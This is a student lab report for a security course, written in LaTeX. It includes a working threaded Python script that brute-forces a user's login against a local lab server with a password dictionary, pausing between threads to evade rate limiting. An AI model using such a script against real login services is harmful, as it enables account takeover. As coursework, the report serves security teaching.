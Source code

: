 \documentclass{article}
\title{CSE3140 — Lab 4}
\author{Mike Medved, Benny Chen}
\date{November 1st, 2022}
\begin{document}
\maketitle

\section*{Deliverables}

\subsection*{Part 1}
We selected \textit{Britt49} as the User ID, and discovered that user had \$27,452 in their account.

\subsection*{Part 2}

In order to crack the victim's password, we created a script to brute-force the credentials of the user against the production server. The script, and it's results are included below:

\begin{verbatim}
import os
import requests
import threading
import time

user = "V_Jameal49"
target = "http://localhost:2222"

def crack(threadId, user, passwords, target):
    for password in passwords:
        response = requests.post(target, data={'username': user, 'password': password, 'submit': 'Sign In'})
        if "You Logged In!!" in response.text:
            with open('Q2.txt', 'w') as f:
                f.write(password)
            os._exit(1)
    
    print(f"[*] Thread {threadId} terminated")

with open("Q2dictionary", "r") as f:
    i = 1

    # make an array with all the passwords
    passwords = f.read().splitlines()

    # split passwords into 200 chunks
    chunks = [passwords[i:i + 200] for i in range(0, len(passwords), 200)]

    print(f"Processing using {len(chunks)} threads.")

    # create a thread for each chunk
    threadId = 0
    for passwords in chunks:
        t = threading.Thread(target=crack, args=(threadId, user, passwords, target))
        t.start()
        threadId += 1

        # evade ratelimiting
        time.sleep(0.5)

    for passwords in chunks:
        t.join()
\end{verbatim}    
\end{document}

